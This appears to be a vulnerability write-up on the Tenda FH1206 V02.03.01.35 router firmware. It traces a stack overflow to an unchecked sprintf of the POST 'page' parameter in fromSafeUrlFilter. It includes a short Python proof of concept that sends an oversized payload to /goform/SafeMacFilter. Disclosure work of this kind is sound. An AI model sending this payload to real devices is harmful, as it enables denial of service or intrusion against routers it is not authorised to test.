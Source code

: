 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeUrlFilter.`This function accepts the `page` parameter from a POST request. The statement ` sprintf(v11, "firewall_mac.asp?page=%s", v8);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v11` array, thus triggering this security vulnerability.

![image-20240802174142091](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240802174142091.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeMacFilter"
payload = b"a"*1000

data = {"page": payload, "menufacturer": "1"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)
